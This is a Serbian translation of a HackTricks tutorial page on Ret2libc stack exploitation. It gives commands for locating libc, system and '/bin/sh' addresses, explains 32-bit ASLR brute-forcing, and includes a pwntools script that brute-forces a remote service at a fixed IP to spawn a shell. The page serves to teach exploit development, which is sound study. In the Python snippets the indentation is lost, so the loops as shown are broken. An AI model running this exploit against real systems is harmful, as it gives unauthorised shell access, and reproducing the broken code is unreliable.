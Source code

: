 # Ret2lib

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## **Osnovne informacije**

Suština **Ret2Libc** je preusmeravanje izvršnog toka ranjivog programa ka funkciji unutar deljene biblioteke (npr. **system**, **execve**, **strcpy**) umesto izvršavanja shell koda koji je dostavljen od strane napadača na steku. Napadač kreira payload koji modifikuje povratnu adresu na steku kako bi pokazivala ka željenoj funkciji biblioteke, dok istovremeno organizuje da svi neophodni argumenti budu ispravno postavljeni prema konvenciji pozivanja.

### **Primer koraka (simplifikovan)**

* Dobiti adresu funkcije koja se poziva (npr. system) i komandu koja se poziva (npr. /bin/sh)
* Generisati ROP lanac da bi se prosledio prvi argument koji pokazuje ka stringu komande i izvršni tok ka funkciji

## Pronalaženje adresa

* Pretpostavljajući da se `libc` koji se koristi nalazi na trenutnoj mašini, možete pronaći gde će biti učitan u memoriju sa:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

Ako želite da proverite da li ASLR menja adresu libc-a, možete uraditi sledeće:

```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```

* Znajući korišćenu libc biblioteku, takođe je moguće pronaći offset do `system` funkcije sa:

```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```

* Znajući korišćenu libc biblioteku, takođe je moguće pronaći offset do stringa `/bin/sh` funkcije sa:

```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```

### Korišćenje gdb-peda / GEF

Znajući koji se libc koristi, takođe je moguće koristiti Peda ili GEF da biste dobili adresu funkcije **system**, funkcije **exit** i stringa **`/bin/sh`** :

```
p system
p exit
find "/bin/sh"
```

### Korišćenje /proc/\<PID>/maps

Ako proces stvara **dečije procese** svaki put kada komunicirate s njim (mrežni server), pokušajte **pročitati** taj fajl (verovatno će vam biti potrebno da budete root).

Ovde možete pronaći **tačno gde je učitan libc** unutar procesa i **gde će biti učitan** za svako dete procesa.

![](<../../../../.gitbook/assets/image (95).png>)

U ovom slučaju učitan je na **0xb75dc000** (Ovo će biti bazna adresa libc-a)

## Nepoznat libc

Moguće je da **ne znate koji libc učitava binarni fajl** (jer se možda nalazi na serveru do kojeg nemate pristup). U tom slučaju možete iskoristiti ranjivost da **procurete neke adrese i pronađete koji libc** biblioteka se koristi:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

I možete pronaći šablon pwntools-a za ovo u:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## Zaobilaženje ASLR-a u 32 bita

Ovi napadi brute-forcinga su **korisni samo za 32-bitne sisteme**.

* Ako je eksploatacija lokalna, možete pokušati brute-force baznu adresu libc-a (korisno za 32-bitne sisteme):

```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```

* Ako napadate udaljeni server, možete pokušati **bruteforce-ovati adresu `libc` funkcije `usleep`**, prosleđujući kao argument 10 (na primer). Ako server u nekom trenutku **dodatno odgovori za 10 sekundi**, pronašli ste adresu ove funkcije.

## Jedan Gadget

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib Primer Koda

U ovom primeru, ASLR bruteforce je integrisan u kod, a ranjivi binarni fajl se nalazi na udaljenom serveru:

```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```

## Primer koda x64 Ret2lib

Proverite primer sa:

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (ili puts)

Ovo omogućava **procurivanje informacija iz procesa** pozivanjem `printf`/`puts` sa određenim podacima postavljenim kao argument.

## Ret2printf

Ovo u osnovi znači zloupotrebu **Ret2lib-a kako bi se transformisao u ranjivost `printf` format string-ova** koristeći `ret2lib` za pozivanje printf sa vrednostima koje se zloupotrebljavaju (zvuči beskorisno ali je moguće):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## Ostali primeri i reference

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, dajući procuru do adrese funkcije u libc-u, koristeći jedan gadget
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 bita, ASLR omogućen ali bez PIE-a, prvi korak je popuniti prekoračenje do bajta 0x00 kanara, zatim pozvati puts i procuriti ga. Sa kanarom se kreira ROP gedžet za pozivanje puts-a kako bi procurio adresu puts-a iz GOT-a, zatim ROP gedžet za pozivanje `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 bita, ASLR omogućen, bez kanara, prekoračenje steka u glavnoj funkciji iz podfunkcije. ROP gedžet za pozivanje puts-a kako bi procurio adresu puts-a iz GOT-a, zatim pozvati jedan gedžet.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 bita, bez PIE-a, bez kanara, bez relro, nx. Koristi funkciju write za procurivanje adrese write (libc) i poziva jedan gedžet.
